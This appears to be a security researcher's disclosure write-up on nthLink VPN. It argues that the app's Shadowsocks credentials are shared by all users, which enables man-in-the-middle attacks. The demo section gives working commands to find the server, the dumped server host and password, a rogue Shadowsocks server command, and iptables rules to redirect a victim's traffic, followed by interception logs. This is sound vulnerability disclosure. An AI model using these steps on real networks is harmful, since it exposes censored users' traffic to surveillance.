









# Stripping nthLink VPN encryption

A note about nthLink VPN, its internals and its fatal cryptographic failure. Why it can be important:

* Some people may rely on non-existent security guarantees promised by this application. This product specifically claims circumvention of censorship, outlining its primary use case. In that usage scenario confidentiality failures may cause end user unknowingly reveal to censor what was supposed to be hidden by VPN connection.
* Other applications running shadowsocks instances for multiple users ultimately may have that issue too. Basically that protocol is [still suited only for personal use](https://github.com/shadowsocks/shadowsocks-org/issues/54), not for public services with many users.

Also this note may be interesting to people who want to know how such applications work under the hood.

## About nthLink VPN

Interesting facts about the product.

From [nthLink website](https://www.nthlink.com/):



More security claims:



Security audit completed twice:



Interesting that audit report is not made public, but promised to be provided upon requests. What's the problem with publishing it? Anyway, in the light of actual findings it's safe to assume that [Cure53](https://cure53.de/) audit is either worthless or its subject was related to infra/website and not the application itself.

Application is open source unless your source code request accidentally falls into spam folder[^1]:



[Received fairly small funding from some Open Technology Fund.](http://web.archive.org/web/20220620234755/https://www.opentech.fund/results/supported-projects/nthlink/)

[^1]: Nonetheless, it is possible to recover all important details from Electron app for Windows.

## Application internals

Application pretends to work as a VPN for the whole system, but it is actually just a shadowsocks client. It uses [badvpn tun2socks](https://github.com/ambrop72/badvpn/tree/master/tun2socks) (or similar software) to redirect all TCP and UDP sessions into shadowsocks, which is technically not an actual VPN.

Despite the fact source code is not published and not readily available, it was trivial to extract it from their electron application for Windows. JS code can be unpacked with just `npx asar extract` command. [Here](https://github.com/jonmest/How-To-Tamper-With-Any-Electron-Application) is a full guide on that subject.

Analysis of source code revealed that algorithm of retrieving connection credentials roughly looks like that:

1. Calculate current API domain based on domain seed, top level domain and current date.
2. If it doesn't work, fallback to hardcoded AWS S3 domain.
3. Make a request and retrieve config body.
4. Config body contains digital signature (RSA-SHA256 PKCSv15). Verify it.
5. Decrypt final server credentials JSON encrypted with AES256-CTR. Static encryption key is hardcoded. Also this configuration payload contains latest domain seed and top level domain for API entrypoint generation.

I've made [alternative client](https://github.com/Snawoot/nth-dump) which does these steps and allows you to get plain shadowsocks credentials, usable with any vanilla shadowsocks client.



Here is the problem. All cryptographic keys in shadowsocks are derived from shared password. **Therefore if all clients know the Symmetric Pre-Shared Key (SPSK) they can use it to MitM attack other clients of the same server.** This is a fatal cryptographic failure which completely destroys security of the protocol.

## Demo? Demo!

Let's demonstrate that anyone can see and tamper traffic secured by nthLink.

### Install app and connect

Latest nthLink app is an Android app version 5.1.0 released 2021-04-01.

Installed and connected:



Verified connection. IP address changed to IP address of nthLink server:



### Rogue shadowsocks server

Victim IP address in the network is 192.168.1.65. We need to divert its traffic from nthLink shadowsocks server to our rogue shadowsocks server. Lets find address of server.

On Linux gateway (router) lets grab https-alike connections from victim device:

```
fgrep 192.168.1.65 /proc/net/nf_conntrack | fgrep dport=443 | fgrep ESTABLISHED
```

And from other side lets run [nth-dump](https://github.com/Snawoot/nth-dump#nth-dump) until there will be an address from the list of connections.

```
Name:		nthLink Server
Host:		68.183.72.121
Port:		443
Method:		chacha20-ietf-poly1305
Password:	2djK1R9egUBi
URL:		ss://Y2hhY2hhMjAtaWV0Zi1wb2x5MTMwNToyZGpLMVI5ZWdVQmk=@68.183.72.121:443#nthLink%20Server
```

Now connection matched to server and its credentials. Lets start rogue shadowsocks server. For that purpose I use [go-shadowsocks2](https://github.com/shadowsocks/go-shadowsocks2/) server:

```
./shadowsocks2-linux-arm -s 'ss://AEAD_CHACHA20_POLY1305:2djK1R9egUBi@:443' -verbose
```

Finally, let's redirect victim's traffic to rogue shadowsocks server:

```
iptables -t nat -I PREROUTING -m tcp -p tcp -s 192.168.0.0/16 -d 68.183.72.121 --dport 443 -j REDIRECT --to 443
iptables -t nat -I PREROUTING -m udp -p udp -s 192.168.0.0/16 -d 68.183.72.121 --dport 443 -j REDIRECT --to 443
```

### Traffic interception goal reached

Observing logs of go-shadowsocks2:

```
2022/08/24 23:24:46 tcp.go:137: proxy 192.168.1.65:46868 <-> 108.177.119.94:443
2022/08/24 23:24:49 tcp.go:137: proxy 192.168.1.65:46882 <-> 142.250.203.142:443
2022/08/24 23:24:49 tcp.go:137: proxy 192.168.1.65:46890 <-> 172.217.18.3:443
2022/08/24 23:25:06 tcp.go:137: proxy 192.168.1.65:46900 <-> 142.250.185.109:443
2022/08/24 23:25:06 tcp.go:137: proxy 192.168.1.65:46908 <-> 142.250.184.228:443
2022/08/24 23:25:06 tcp.go:137: proxy 192.168.1.65:46914 <-> 142.250.185.67:443
2022/08/24 23:25:07 tcp.go:137: proxy 192.168.1.65:46920 <-> 34.160.111.145:443
2022/08/24 23:25:09 tcp.go:137: proxy 192.168.1.65:46930 <-> 8.8.4.4:443
2022/08/24 23:25:09 tcp.go:137: proxy 192.168.1.65:46936 <-> 8.8.8.8:443
2022/08/24 23:25:09 tcp.go:137: proxy 192.168.1.65:46944 <-> 8.8.8.8:443
2022/08/24 23:25:14 tcp.go:137: proxy 192.168.1.65:46952 <-> 172.217.20.202:443
2022/08/24 23:25:42 tcp.go:137: proxy 192.168.1.65:46966 <-> 149.154.167.50:443
2022/08/24 23:25:46 tcp.go:139: relay error: read tcp 46.250.2.79:60350->44.192.201.202:4244: read: connection reset by peer
2022/08/24 23:25:47 tcp.go:137: proxy 192.168.1.65:46972 <-> 44.192.201.202:443
2022/08/24 23:26:18 tcp.go:137: proxy 192.168.1.65:46980 <-> 216.58.215.99:443
2022/08/24 23:27:50 tcp.go:137: proxy 192.168.1.65:46986 <-> 149.154.167.50:443
2022/08/24 23:28:11 tcp.go:137: proxy 192.168.1.65:46992 <-> 149.154.167.50:443
2022/08/24 23:28:34 tcp.go:137: proxy 192.168.1.65:46998 <-> 149.154.167.50:443
```

As you can see, connections successfully redirected and our shadowsocks server understands and executes requests.

Confirmed redirection back to my home IP worked even with active VPN:



We could redirect traffic back to nthLink server after inspection and make it look like usual, but for demo purposes we don't do it as we need to make it more explicit rather than make it stealth.

Finally, let's dump traffic with `tcpdump -i any -nvvs0 'dst port 443' -w hs.cap` to show we see it same way as without VPN at all. Captured TLS handshake with Server Name Indication viewer in Wireshark PCAP dump analyzer:


